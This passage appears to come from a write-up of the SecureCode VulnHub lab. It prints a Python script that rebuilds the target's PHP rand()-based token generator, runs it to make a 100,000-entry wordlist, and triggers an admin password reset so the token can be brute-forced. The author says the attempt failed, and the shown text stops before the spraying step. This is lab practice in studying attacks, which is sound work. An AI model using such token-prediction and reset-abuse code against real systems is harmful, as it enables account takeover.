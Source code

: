 # Extra

We did a script to bruteforce the admin token, it was not success obviosly because the lenght of the wordlist, but was a good practice

Here we got the script

predict_token.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Predict Admin Token - Failed
# SecureCode - VulnHub

import argparse
import requests
import sys
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Mount the php function to predict it
def mountPredictLogic():
    print("[+] Let's generate the token list, may be take a good time, be patient ! [+]")
    payload = "<?php\n"
    payload += "function generateToken(){\n"
    payload += "    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';\n"
    payload += "    $charactersLength = strlen($characters);\n"
    payload += "    $randomString = '';\n"
    payload += "    for ($i = 0; $i < 15; $i++) {\n"
    payload += "        $randomString .= $characters[rand(0, $charactersLength - 1)];\n"
    payload += "    }\n"
    payload += "    return $randomString;\n"
    payload += "}\n"
    payload += "\n"
    payload += "echo(generateToken());\n"
    payload += "echo \"\\n\"\n"
    payload += "\n"
    payload += "?>\n"
    f = open("generator.php", "w")
    f.write(payload)
    f.close()
    # Let's make the list
    number = 0
    while number < 100000:
        os.system("php generator.php >> token_list.txt")
        number = number+1
    print("[+] Done ! [+]")

# Let's send the admin token
def sendToken(rhost):
    print("[+] Just generate the admin token ! [+]")
    url = "http://%s:80/login/resetPassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Let's spray the token
```